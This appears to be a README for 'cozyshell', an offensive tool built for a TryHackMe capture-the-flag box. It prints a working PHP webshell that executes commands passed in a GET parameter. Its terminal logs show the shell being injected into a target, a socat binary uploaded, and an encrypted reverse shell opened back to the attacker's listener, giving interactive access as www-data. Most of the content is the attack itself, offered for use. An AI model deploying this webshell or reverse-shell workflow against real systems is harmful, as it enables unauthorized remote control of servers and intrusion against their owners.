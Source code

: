 
$_COZYSHELL

  **Developed for the 'year of the dog' THM box, use it with caution and responsability**

- First we need to upload a webshell like the one bellow.
```php
  <?php echo shell_exec($_GET["cmd"]); ?>
```
```txt
┌──(root㉿kali)-[~/cozyshell]
└─# ../t.py -u http://10.10.44.102/
[*] Injecting webshell at http://10.10.44.102/cae822a9.php
[*] Success! We got a webshell as www-data
```
---
- Now we can quickly upgraded to a nice and cozy interactive shell
```
┌──(root㉿kali)-[~/cozyshell]
└─# ./cozyshell --url http://10.10.44.102/cae822a9.php --lhost 10.13.21.200 --lport 8443 
[*] Uploading socat binary to /var/www/html/c233735f
[*] Starting Webserver
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.44.102 - - [06/Jan/2024 18:56:53] "GET /bin HTTP/1.1" 200 -
[*] Finished uploading socat!
[*] Killing Webserver process
[*] Starting reverse shell handler on tty /dev/pts/1
[*] Paste CMD: export TERM=screen; stty rows 59 cols 116
[*] Sending encrypted reverse shell to 10.13.42.125:8443
<www/html$ export TERM=screen; stty rows 59 cols 116
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ ls
assets	c233735f  cae822a9.php	config.php  index.php
www-data@year-of-the-dog:/var/www/html$ exit
exit
[*] Finished executing interactive shell
[*] Success
```

